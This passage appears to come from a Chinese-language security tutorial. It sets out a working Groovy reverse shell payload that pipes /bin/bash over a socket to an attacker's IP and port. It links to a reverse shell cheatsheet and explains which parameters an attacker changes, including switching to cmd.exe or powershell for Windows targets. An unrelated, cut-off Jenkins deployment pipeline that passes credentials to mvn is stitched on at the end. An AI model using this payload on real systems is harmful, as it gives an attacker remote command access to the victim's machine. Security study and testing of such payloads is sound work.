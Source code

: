 ### reverse shell payload for Groovy

```groovy
String host="{YOUR_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {p.exitValue();
break;
}catch (Exception e){}};
p.destroy();
s.close();
```

關於更多不同的 reverse shell 可參考: 

PayloadsAllTheThings/Reverse Shell [Cheatsheet.md](http://cheatsheet.md/) at master · swisskyrepo/PayloadsAllTheThings
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

基本上你可能會改的參數只有這些:

```bash
String host="{your_IP}";  # 因為是讓目標連回去你(攻擊方)的 server，所以是填入你的 ip
int port=8000;
String cmd="/bin/bash";   # 如果對方是用 windows 主機，就必須換成 cmd.exe or powershell
```

```groovy
pipeline {
  agent any
  stages {
    stage('Unit Test') { 
      steps {
        sh 'mvn clean test'
      }
    }
    stage('Deploy Standalone') { 
      steps {
        sh 'mvn deploy -P standalone'
      }
    }
    stage('Deploy AnyPoint') { 
      environment {
        ANYPOINT_CREDENTIALS = credentials('anypoint.credentials') 
      }
      steps {
        sh 'mvn deploy -P arm -Darm.target.name=local-4.0.0-ee -Danypoint.username=${ANYPOINT_CREDENTIALS_USR}  -Danypoint.password=${ANYPOINT_CREDENTIALS_PSW}' 
      }
    }
    stage('Deploy CloudHub') { 
      environment {
        ANYPOINT_CREDENTIALS = credentials('anypoint.credentials')
      }
      steps {
```